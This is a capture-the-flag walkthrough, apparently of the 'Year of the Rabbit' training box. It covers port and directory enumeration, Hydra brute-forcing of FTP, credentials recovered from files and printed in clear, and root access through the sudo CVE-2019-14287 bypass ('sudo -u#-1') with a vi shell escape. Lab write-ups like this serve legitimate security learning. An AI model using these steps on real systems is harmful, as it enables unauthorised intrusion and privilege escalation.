





# Year of the Rabbit

## Nmap
```
$ sudo nmap -sS -Pn -p- 10.10.247.174
[sudo] password for kali: 
Starting Nmap 7.94 ( https://nmap.org ) at 2023-10-21 19:14 EDT
Stats: 0:02:37 elapsed; 0 hosts completed (1 up), 1 undergoing SYN Stealth Scan
SYN Stealth Scan Timing: About 62.57% done; ETC: 19:18 (0:01:34 remaining)
Nmap scan report for 10.10.247.174
Host is up (0.050s latency).
Not shown: 65532 closed tcp ports (reset)
PORT   STATE SERVICE
21/tcp open  ftp
22/tcp open  ssh
80/tcp open  http

Nmap done: 1 IP address (1 host up) scanned in 191.85 seconds
```


## FTP 

Not possible to login as anonymous

## Web

/assets directory



It was a rickroll reeeeeeeeeeeeeeeeeee




## Gobuster

```
┌──(kali㉿kali)-[~]
└─$ gobuster dir -u http://10.10.7.99 -w /usr/share/wordlists/dirbuster/directory-list-2.3-small.txt -x php,html
===============================================================
Gobuster v3.6
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     http://10.10.7.99
[+] Method:                  GET
[+] Threads:                 10
[+] Wordlist:                /usr/share/wordlists/dirbuster/directory-list-2.3-small.txt
[+] Negative Status codes:   404
[+] User Agent:              gobuster/3.6
[+] Extensions:              php,html
[+] Timeout:                 10s
===============================================================
Starting gobuster in directory enumeration mode
===============================================================
/.php                 (Status: 403) [Size: 275]
/.html                (Status: 403) [Size: 275]
/index.html           (Status: 200) [Size: 7853]
/assets               (Status: 301) [Size: 309] [--> http://10.10.7.99/assets/]
/.html                (Status: 403) [Size: 275]
/.php                 (Status: 403) [Size: 275]
Progress: 262992 / 262995 (100.00%)
===============================================================
Finished
===============================================================

┌──(kali㉿kali)-[~]
└─$ gobuster dir -u http://10.10.7.99 -w /usr/share/wordlists/dirb/common.txt 
===============================================================
Gobuster v3.6
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     http://10.10.7.99
[+] Method:                  GET
[+] Threads:                 10
[+] Wordlist:                /usr/share/wordlists/dirb/common.txt
[+] Negative Status codes:   404
[+] User Agent:              gobuster/3.6
[+] Timeout:                 10s
===============================================================
Starting gobuster in directory enumeration mode
===============================================================
/.hta                 (Status: 403) [Size: 275]
/.htaccess            (Status: 403) [Size: 275]
/.htpasswd            (Status: 403) [Size: 275]
/assets               (Status: 301) [Size: 309] [--> http://10.10.7.99/assets/]
/index.html           (Status: 200) [Size: 7853]
/server-status        (Status: 403) [Size: 275]
Progress: 4614 / 4615 (99.98%)
===============================================================
Finished
===============================================================

```


Looking at the asset's flag again but now with curl:

```
┌──(kali㉿kali)-[~]
└─$ curl http://10.10.7.99//sup3r_s3cr3t_fl4g.php -v
*   Trying 10.10.7.99:80...
* Connected to 10.10.7.99 (10.10.7.99) port 80 (#0)
> GET //sup3r_s3cr3t_fl4g.php HTTP/1.1
> Host: 10.10.7.99
> User-Agent: curl/7.88.1
> Accept: */*
> 
< HTTP/1.1 302 Found
< Date: Sun, 22 Oct 2023 01:44:57 GMT
< Server: Apache/2.4.10 (Debian)
< Location: intermediary.php?hidden_directory=/WExYY2Cv-qU
< Content-Length: 0
< Content-Type: text/html; charset=UTF-8
< 
* Connection #0 to host 10.10.7.99 left intact
```

We see that we are redirected to a hidden directory




## The image

I tried binwalk on the image but there was no any usefull data.

I also tried stegonography decoders but got nothing

I then tried to run strings on the image and got the following.



```
Eh, you've earned this. Username for FTP is ftpuser
One of these is the password:
```

## Brute forcing FTP

```
─$ hydra -l ftpuser -P password.txt ftp://10.10.7.99
Hydra v9.5 (c) 2023 by van Hauser/THC & David Maciejak - Please do not use in military or secret service organizations, or for illegal purposes (this is non-binding, these *** ignore laws and ethics anyway).

Hydra (https://github.com/vanhauser-thc/thc-hydra) starting at 2023-10-21 21:59:51
[DATA] max 16 tasks per 1 server, overall 16 tasks, 82 login tries (l:1/p:82), ~6 tries per task
[DATA] attacking ftp://10.10.7.99:21/
[21][ftp] host: 10.10.7.99   login: ftpuser   password: 5iez1wGXKfPKQ
1 of 1 target successfully completed, 1 valid password found
Hydra (https://github.com/vanhauser-thc/thc-hydra) finished at 2023-10-21 22:00:06
```

## FTP

```
$ ftp 10.10.7.99   
Connected to 10.10.7.99.
220 (vsFTPd 3.0.2)
Name (10.10.7.99:kali): ftpuser
331 Please specify the password.
Password: 
230 Login successful.
Remote system type is UNIX.
Using binary mode to transfer files.
ftp> ls
229 Entering Extended Passive Mode (|||55654|).
150 Here comes the directory listing.
-rw-r--r--    1 0        0             758 Jan 23  2020 Eli's_Creds.txt
226 Directory send OK.
ftp> get Eli's_Creds.txt
```

Eddies creds file looks like the Brainfuck Programming language

Using an online interpreter we get the following creeds.

**eli:DSpDiM1wAEwid**




## SSH

```
┌──(kali㉿kali)-[~/Desktop/YearOfTheRabbit]
└─$ ssh eli@10.10.7.99     
The authenticity of host '10.10.7.99 (10.10.7.99)' can't be established.
ED25519 key fingerprint is SHA256:va5tHoOroEmHPZGWQySirwjIb9lGquhnIA1Q0AY/Wrw.
This key is not known by any other names.
Are you sure you want to continue connecting (yes/no/[fingerprint])? yes
Warning: Permanently added '10.10.7.99' (ED25519) to the list of known hosts.
eli@10.10.7.99's password: 


1 new message
Message from Root to Gwendoline:

"Gwendoline, I am not happy with you. Check our leet s3cr3t hiding place. I've left you a hidden message there"

END MESSAGE


eli@year-of-the-rabbit:~$ 
```

Weird File
```
eli@year-of-the-rabbit:~$ ls
core  Desktop  Documents  Downloads  Music  Pictures  Public  Templates  Videos
eli@year-of-the-rabbit:~$ file core
core: ELF 64-bit LSB core file x86-64, version 1 (SYSV), too many program headers (352)
eli@year-of-the-rabbit:~$ ls -la ~/core 
-rw------- 1 eli eli 589824 Jan 23  2020 /home/eli/core
```

Secret
```
eli@year-of-the-rabbit:~$ find / -name "*s3cr3t*" 2>/dev/null
/var/www/html/sup3r_s3cr3t_fl4g.php
/usr/games/s3cr3t
eli@year-of-the-rabbit:~$ 
```
```
eli@year-of-the-rabbit:/usr/games/s3cr3t$ ls -la
total 12
drwxr-xr-x 2 root root 4096 Jan 23  2020 .
drwxr-xr-x 3 root root 4096 Jan 23  2020 ..
-rw-r--r-- 1 root root  138 Jan 23  2020 .th1s_m3ss4ag3_15_f0r_gw3nd0l1n3_0nly!
eli@year-of-the-rabbit:/usr/games/s3cr3t$ cat .th1s_m3ss4ag3_15_f0r_gw3nd0l1n3_0nly\! 
Your password is awful, Gwendoline. 
It should be at least 60 characters long! Not just MniVCQVhQHUNI
Honestly!

Yours sincerely
   -Root
eli@year-of-the-rabbit:/usr/games/s3cr3t$ 
```

```
eli@year-of-the-rabbit:/usr/games/s3cr3t$ su gwendoline 
Password: 
gwendoline@year-of-the-rabbit:/usr/games/s3cr3t$ 
```

## PrivEsc

```
gwendoline@year-of-the-rabbit:~$ sudo -l
Matching Defaults entries for gwendoline on year-of-the-rabbit:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin

User gwendoline may run the following commands on year-of-the-rabbit:
    (ALL, !root) NOPASSWD: /usr/bin/vi /home/gwendoline/user.txt
gwendoline@year-of-the-rabbit:~$ 
```

```
gwendoline@year-of-the-rabbit:~$ sudo --version
Sudo version 1.8.10p3
Sudoers policy plugin version 1.8.10p3
Sudoers file grammar version 43
Sudoers I/O plugin version 1.8.10p3
```

With this SUDO version ther exists the following exploit https://www.exploit-db.com/exploits/47502

The CVE is CVE-2019-14287
As explained in the exploit

```
User hacker sudo privilege in /etc/sudoers

# User privilege specification
root    ALL=(ALL:ALL) ALL

hacker ALL=(ALL,!root) /bin/bash


With ALL specified, user hacker can run the binary /bin/bash as any user

EXPLOIT: 

sudo -u#-1 /bin/bash
```

We can use this and vi to spawn a linux shell

```
gwendoline@year-of-the-rabbit:~$ sudo -u#-1 /usr/bin/vi /home/gwendoline/user.txt

root@year-of-the-rabbit:/home/gwendoline# whoami
root
```

We can escape vi into a shell by going into command mode and typing ```:sh```


## Get all the flags
